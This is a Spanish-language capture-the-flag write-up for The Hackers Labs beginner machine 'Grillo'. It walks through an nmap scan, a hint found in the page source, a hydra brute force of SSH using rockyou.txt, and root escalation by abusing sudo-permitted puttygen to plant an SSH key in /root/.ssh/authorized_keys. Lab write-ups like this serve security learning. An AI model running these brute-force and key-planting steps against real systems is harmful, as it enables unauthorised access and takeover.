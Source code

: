 ```yaml
---
title: 'The Hackers Labs: '
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

🔗 **Página de la máquina:** [https://thehackerslabs.com/grillo/](https://thehackerslabs.com/grillo/)

![Grillo](/thl/principiante/grillo/grillo.png)

# Reconocimiento

En esta etapa inicial realizamos un escaneo de puertos para identificar los servicios activos en la máquina objetivo. Utilizamos `Nmap` con parámetros específicos para lograr un análisis más detallado.

```bash
sudo nmap -p- --open -sS -sCV --min-rate 5000 -Pn -n -oN grillo.txt 192.168.100.7 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:35 -03
Nmap scan report for 192.168.100.7
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:51:25:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 22/tcp - SSH (OpenSSH 9.2p1)
- 80/tcp - HTTP (Apache 2.4.57)

---

# Exploración Web

Ingresamos al sitio mediante el navegador accediendo a la IP descubierta en el escaneo. Nos encontramos con la página por defecto de Apache en Debian. Revisando el código fuente de la página, encontramos una pista interesante:

> "Cambia la contraseña de ssh por favor melanie."

![Página por defecto](/thl/principiante/grillo/defaul-page.png)

![Comentario](/thl/principiante/grillo/comentario.png)

---

# Explotación

Aplicamos fuerza bruta al servicio SSH usando el usuario `melanie` y el diccionario `rockyou.txt`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt 192.168.100.7 ssh -t 64
```

Se encuentra la contraseña válida: **trustno1**

![Hydra](/thl/principiante/grillo/hydra.png)

---

# Escalada de Privilegios

Una vez dentro de la máquina, verificamos permisos con:

```bash
sudo -l
```

Descubrimos que podemos ejecutar `puttygen` como root.

![nopasswd](/thl/principiante/grillo/nopasswd.png)

### Uso de puttygen para escalar

Puttygen se utiliza para generar claves SSH. Generamos una clave para root con los siguientes pasos:

> 💡 *Nota:* Es posible que tengas que crear la carpeta `.ssh` manualmente con `mkdir ~/.ssh` si no existe.

```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
scp melanie@192.168.100.7:/home/melanie/.ssh/id .
ssh -i id root@192.168.100.7
```

Primero, se genera una nueva clave SSH RSA de 2048 bits y se guarda en ~/.ssh/id. Luego, se extrae la clave pública desde ese archivo y se agrega al final de ~/.ssh/authorized_keys para habilitar el acceso por clave. Posteriormente, la clave privada se transfiere al directorio seguro /root/.ssh/, y la pública se exporta en formato OpenSSH a /root/.ssh/authorized_keys, permitiendo así la autenticación como root. Finalmente, se copia la clave privada desde la máquina remota a tu entorno local mediante scp, y se establece la conexión SSH con el usuario root usando:

Con esto obtenemos acceso completo como root.

---

# 🎉 ¡Root conseguido!

![root](/thl/principiante/grillo/root.png)

Hemos completado exitosamente la máquina **Grillo** de TheHackersLabs.
